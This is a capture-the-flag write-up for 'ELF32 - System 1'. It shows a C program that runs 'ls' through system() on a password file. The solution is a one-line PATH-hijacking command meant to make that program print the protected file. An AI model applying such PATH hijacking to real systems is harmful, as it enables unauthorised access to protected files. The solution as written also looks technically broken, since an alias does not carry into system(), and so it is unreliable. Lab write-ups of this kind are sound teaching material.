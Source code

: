 ## ELF32 - System 1

| Author | Level | Points |
| ------ | ----- | ------ |
| Lu33Y | Very Easy | 5 |


>Try to find your path padawan !
>
>Source code :
>
>```c
>#include <stdlib.h>
>#include <stdio.h>
> 
>/* gcc -m32 -o ch11 ch11.c */
> 
>int main(void) 
>{
>	system("ls /challenge/app-script/ch11/.passwd"); 
>	return 0;
>}
>```

#### Solution

```
alias ls="cat"; export PATH="/tmp"; ./ch11
```
